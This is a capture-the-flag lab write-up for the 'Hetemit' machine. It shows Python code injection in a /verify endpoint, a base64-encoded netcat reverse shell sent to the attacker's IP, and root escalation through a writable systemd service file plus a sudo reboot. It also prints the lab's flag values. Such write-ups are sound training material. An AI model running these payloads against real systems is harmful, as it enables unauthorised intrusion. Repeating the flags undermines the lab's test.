# Lab Report - Hetemit


# Overview 
---
- **Difficulty**: Intermediate
- **Community Rating**: Very Hard
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/hetemit-527/overview/details
- **Resources**:
	- [Hacktricks - Python](https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/python.html).
	- [Hacktricks - Bypass Python sandboxes](https://hacktricks.wiki/en/generic-methodologies-and-resources/python/bypass-python-sandboxes/index.html).

## Resolution Summary 
---
We discovered a python web application on port 50000 that exposed an endpoint which evaluated input passed to the `code` POST parameter. We abused it to perform OS command execution and gained a foothold on the target. Afterwards, we discovered that we could restart the target via `sudo /sbin/reboot`, as well as that we had write access to a `systemd` configuration file `pythonapp.service`. We abused it by making `root` the user who starts the python application on port 50000 then we rebooted the machine. Finally, we gained a root shell by following the same steps for the foothold.   

# Information Gathering 
---
- First off, we performed an Nmap scan with the aim of revealing available services, as well as their versions. We noticed that a python web application was running on port 50000:
```bash
sudo nmap 192.168.153.117 -p- -sCV
```
<p align="center">
  
</p>


- The web application on port 50000 seemed to expose two endpoints, `/generate` and `/verify`: 
```bash
http://192.168.153.117:50000/
```
<p align="center">
  
</p>


- After accessing the `/verify` endpoint, it seemed to take a parameter named `code`. We attempted to use it as both a GET and POST parameter (separately) and concluded that it was intended to be a POST parameter:
	- When using it as a GET parameter, we kept getting the same result as when accessing the `/verify` endpoint.

- We sent the following HTTP request via Burp Suite, and we received a valid response:
```HTTP
POST /verify HTTP/1.1
Host: 192.168.153.117:50000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

code=1234
```
<p align="center">
  
</p>


# Exploitation 
---
- Since it was a python application, we attempted to see if our input was being evaluated, and we discovered that it was the case by using `7*7` as input: 
```HTTP
POST /verify HTTP/1.1
Host: 192.168.153.117:50000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 8

code=7*7
```
	- We could have also used `+str(True)+`, expecting `True` as output if it was indeed evaluated. `
<p align="center">
  
</p>

- Following that, we attempted to run OS commands on the target, and we could successfully confirm RCE by running the `id` command: 
```HTTP
POST /verify HTTP/1.1
Host: 192.168.153.117:50000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

code=os.popen("id").read()
```
<p align="center">
  
</p>

- Having that in mind, we attempted to execute a reverse shell in order to gain a foothold on the machine.
- First, we set up a listener:
```bash
penelope -p 80
```

- Next, we executed a reverse shell using the vulnerable `code` POST parameter and gained a shell session as `cmeeks`: 
	- Note that using a base64 encoded reverse shell helps avoid any data malformation and execution issues when it is transferred:
```HTTP
POST /verify HTTP/1.1
Host: 192.168.153.117:50000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

code=os.popen("echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjE2IDgwID4vdG1wL2Y= | base64 -d | sh").read()
```
<p align="center">
  
</p>


- We proceeded to retrieve the first flag:
```bash
cat /home/cmeeks/local.txt && id && ip a
```
<p align="center">
  
</p>


# Privilege Escalation 
---
- Upon getting a shell on the target, we noticed that we could reboot the target using `sudo`:
```bash
sudo -l
```
<p align="center">
  
</p>


- After listing files that we had write permission over, we discovered that we could write the configuration of a service (`pythonapp.service`): 
```bash
find / \( -path /proc -o -path /sys \) -prune -o -type f -writable -print 2>/dev/null
```
<p align="center">
  
</p>


- We edited the `pythonapp.service` configuration file in order to run the python web application as root upon restart: 
	- It would allow to gain a `root` shell using our previous method for the foothold.
```bash
cat /etc/systemd/system/pythonapp.service
#Output 
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

- Then we leverage `sudo` on the `sbin/reboot` binary to reboot the target:
```bash
sudo /sbin/reboot
```


- We restarted our listener, waited a few minutes, then sent our malicious HTTP request to gain back our shell and confirm that the operation was successful: 
	- Simply repeat the 2 last steps from the exploitation phase
```bash
id
```
<p align="center">
  
</p>


- Finally, we collected the last flag: 
```bash
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>


# Trophy 
---
**User.txt → `db30c16d5cded0b891fc075fec732fca`**  

**Root.txt → `06fc54575d87a78fadb734bd9efd1d03`**

# Lessons Learned
---
- When looking for writable files, it is important to inspect both `world-writable` files and files that your current user can write to.
	- In our case, the `pythonapp.service` was not world-writable, but it was writable by us.
- Here we attempted to gain a root shell in several ways: 
	- Execute a reverse shell in the
	- Copy and make `/bin/bash` a SUID binary
- However, none of the above worked (the application on port 50000 did not restart properly each time).
	- Therefore we simply decided to run the python web application under  root's security context to immediately gain a root shell by preforming the same steps we followed for the foothold.
